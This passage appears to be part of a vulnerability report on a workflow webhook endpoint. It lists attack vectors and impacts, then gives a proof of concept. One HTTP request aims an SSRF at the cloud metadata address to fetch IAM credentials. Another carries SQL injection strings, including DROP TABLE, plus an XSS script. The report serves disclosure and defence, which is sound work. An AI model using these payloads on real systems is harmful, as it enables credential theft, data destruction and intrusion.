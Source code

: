 ### Attack Vectors
1. **Server-Side Request Forgery (SSRF)**: Malicious URLs in payload
2. **Data Injection**: Malicious content in workflow execution
3. **Denial of Service**: Oversized payloads
4. **Information Disclosure**: Error messages reveal system info

## Impact Assessment

### Business Impact
- **Workflow manipulation**: Malicious payloads can alter workflow behavior
- **Data corruption**: Invalid data can corrupt workflow execution
- **Service disruption**: Large payloads can cause DoS
- **Security bypass**: SSRF attacks can access internal services

### Technical Impact
- **Confidentiality**: Potential access to internal services via SSRF
- **Integrity**: Workflow data can be manipulated
- **Availability**: Service disruption through DoS attacks

## Proof of Concept

### Step 1: SSRF Attack via Webhook
```http
POST /v1/webhooks/flow-id HTTP/1.1
Content-Type: application/json
X-Webhook-Secret: valid-secret

{
  "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
  "method": "GET",
  "headers": {
    "User-Agent": "Mozilla/5.0"
  }
}
```

### Step 2: Data Injection Attack
```http
POST /v1/webhooks/flow-id HTTP/1.1
Content-Type: application/json

{
  "user_id": "1'; DROP TABLE users; --",
  "email": "<script>alert('XSS')</script>",
  "data": {
    "malicious": "payload",
    "injection": "'; SELECT * FROM sensitive_data; --"
  }
}
```
